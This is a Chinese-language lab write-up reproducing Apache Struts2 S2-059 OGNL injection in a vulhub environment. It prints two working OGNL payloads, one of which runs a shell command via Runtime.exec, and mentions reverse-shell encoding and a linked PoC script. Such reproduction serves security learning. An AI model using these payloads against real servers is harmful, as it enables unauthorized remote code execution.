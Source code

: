 # Struts2_059_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

​			影响版本

  		2.0.0 - 2.5.20

### 0x02漏洞复现

#### payload1：

?id=%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}

#### payload2：

?id=%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /test'))}





​			登录界面

![S2_059_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_1.png)



​			Burpsuite抓包，发送第一个payload

![S2_059_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_2.png)

​				

​			Burpsuite抓包，发送第二个payload

![S2_059_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_3.jpg)







​				docker进入容器，查看tmp目录，生成test文件，命令成功执行。

![S2_059_rce_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_059_rce_4.png)



(PS:代码执行后无回显，利用bash反弹shell需要base64编码,此处参考了 **hatjwe**师傅的文章)

base64在线编码： http://www.jackson-t.ca/runtime-exec-payloads.html 

poc：https://github.com/ADummmy/vulhub_Writeup/tree/main/code/struts2_059_poc.py

### 0x03总结

​				这是笔者的第三篇文章，复现了大概一天左右，网络上文章质量参差不齐，刚入门导致代码审计看不懂，对新手友好度太差，要么就是上来一段payload和poc，都不告诉你，具体流程是什么，踩了很多坑。不过在此过程中，本人也学到了很多。

### 0x04参考资料

https://my.oschina.net/u/4593034/blog/4693589